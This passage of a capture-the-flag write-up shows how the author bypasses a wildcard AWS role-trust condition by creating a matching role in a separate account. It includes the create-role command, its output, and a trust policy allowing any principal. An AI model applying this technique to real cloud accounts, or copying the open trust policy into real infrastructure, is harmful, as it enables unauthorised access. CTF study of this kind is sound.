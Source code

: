 By googling about AWS misconfiguration, I found that we are able to assume the CTF_ROLE because of that principal field has wildcard.

However it has a condition, which the role to assume it need to be `arn:aws:iam::*:role/*-Accessing_Tet_CTF_Flag*`

That user don't have permission to create role, so I think I have to create my own AWS account and create my own role that match the condition.

As it used a wildcard on the account id field, so any valid AWS account can bypass that condition.

However creating an AWS account requires credit card, and I don't have any.

So I asked the admin if this challenge is able to be solved without an AWS account, and the admin replied : 
```Yeah. An account is needed to assume CTF_ROLE to go further.```

Luckily, the admin lend me the key of an AWS account, so I can continue this challenge.

Then I created a role on that account that match that condition : 

```json
aws iam create-role --role-name kaiziron-Accessing_Tet_CTF_Flag1 --assume-role-policy-document file://policy.json
{
    "Role": {
        "Path": "/",
        "RoleName": "kaiziron-Accessing_Tet_CTF_Flag1",
        "RoleId": "AROAXNIS54OCABZLMIZSM",
        "Arn": "arn:aws:iam::509530203012:role/kaiziron-Accessing_Tet_CTF_Flag1",
        "CreateDate": "2022-01-02T16:11:32Z",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "*"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        }
    }
}
```

For the policy document, I just googled for some example and modified a bit so that I can assume it : 
```json
{
  "Version": "2012-10-17",
  "Statement": [
      {
          "Effect": "Allow",
          "Principal": { "AWS": "*" },
          "Action": "sts:AssumeRole"
      }
  ]
}
```

